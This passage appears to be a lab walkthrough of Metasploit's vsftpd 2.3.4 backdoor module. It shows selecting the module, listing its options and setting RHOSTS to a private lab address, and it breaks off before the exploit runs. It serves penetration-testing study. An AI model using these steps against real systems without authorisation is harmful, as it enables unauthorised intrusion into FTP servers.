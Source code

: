 
3. Using the exploit founded by metasploit, By the following command. (exploit  chosen below)

```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor
```

4. search options for the following exploit, this will give us the list of options to be set compulsory in the exploit. as shown below.

```bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, http, socks5h
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```

5. Now we will set RHOSTS  (Target IP). As the only compulsory option empty was RHOSTS.

```bash
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.64
RHOSTS => 192.168.1.64
msf exploit(unix/ftp/vsftpd_234_backdoor) > OPTIONS
[-] Unknown command: OPTIONS. Did you mean options? Run the help command for more details.
msf exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, http, socks5h
   RHOSTS   192.168.1.64     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



```